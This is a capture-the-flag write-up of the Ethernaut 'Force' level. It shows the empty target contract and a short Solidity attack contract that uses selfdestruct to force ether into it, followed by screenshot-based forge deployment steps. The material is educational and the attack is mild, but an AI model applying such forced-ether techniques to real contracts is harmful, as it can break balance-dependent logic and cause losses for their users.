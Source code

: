 # Task

The goal of this level is to make the balance of the contract greater than zero.

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
This contract code appears to be an empty contract with ASCII art comment

![image](https://github.com/user-attachments/assets/7fbb2b9a-332d-447f-a336-16e659af176f)

"The best way to attack a contract is with another contract." hinted to the `selfdestruct` operation

You can read more about it [here](https://www.alchemy.com/overviews/selfdestruct-solidity)

Since, they hinted us to using another contract, this means we'll have to write a contract that that accepts ether as payment and then self destructs.

Below is our attack contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

contract sendFunds {

    constructor(address payable _owner) payable {
        require(msg.value > 0, "Not enough");
        selfdestruct(_owner);
    }

}
```
The `sendFunds` contract transfers Ether to a specified address upon deployment and then self-destructs, ensuring the funds are sent and the contract is destroyed.

Lets get the contract address

![image](https://github.com/user-attachments/assets/ff7bd1b0-1d7a-4972-96f6-69c4bf0a0630)

Before we deploy the attack contract, we can check the balance of the contract

![image](https://github.com/user-attachments/assets/33e45c81-ead7-4ab1-8be7-30fb9f7b6fff)

We can deploy the attack contract using forge by passing the contract address and a value of 1 wei

![image](https://github.com/user-attachments/assets/c3aa926e-b47d-4952-be33-43cec88e222c)


























